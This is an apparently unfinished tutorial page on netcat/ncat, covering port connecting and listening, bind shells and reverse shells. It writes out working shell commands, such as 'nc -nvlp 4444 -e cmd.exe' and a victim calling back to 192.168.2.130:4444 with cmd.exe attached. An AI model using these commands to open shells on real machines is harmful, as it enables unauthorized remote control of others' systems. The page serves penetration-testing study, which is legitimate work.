 ```yaml
---
description: >-
  Purpose? - To establish connections on open ports and create listening ports
  on local machine | REVERSE SHELL Section in development
---
```


# Netcat/Ncat - WIP

#### This tool allows us to bind to a given port of a given IP address. It is of help when trying to send files between machines, developing exploit payloads that would serve a backdoor on a target.

The scope of this document limits to a discussion of how to use [netcat](https://nc110.sourceforge.io/)/[ncat ](https://nmap.org/ncat/)to connect to clients and serve opening ports

#### Connecting vs Listening

To attempt to establish a connection with TCP port:

```bash
nc -nv [destination ip] [destination port]
```

To listen on TCP port:

```text
nc -nvlp 4444
```

## Bind Shell: Attacker connects to a victim on listening PORTS

1. On Windows Machine - set netcat/ncat to listen on 4444/TCP:

   Once Netcat is running 'cmd line:' prompt will appear; we will pass it the command line executable.

   `nc -nvlp 4444 -e cmd.exe`

2. On Linux Machine - set netcat to connect to 4444/TCP:

   `nc -nv 192.168.2.1 4444 -e /bin/bash`

**In the Bind Shell case described in 1 & 2 the Windows machine is the victim that has been set up to listen on 4444/TCP**

## Reverse Shell: Victim connects to attacker on listening PORTS

This is the one you will be using the most

1. On Linux Machine - set netcat to listen on 4444/TCP:

   `nc -nvlp 4444`

2. On Windows Machine - connect to 192.168.2.130 machine on 4444/TCP:

   `C:\nc64.exe`

**Once Netcat is running 'Cmd line:' prompt will appear, using the -e switch, we pass the command line executable "cmd.exe" to the destination host:**

`Cmd line: -nv 192.168.2.130 4444 -e cmd.exe`



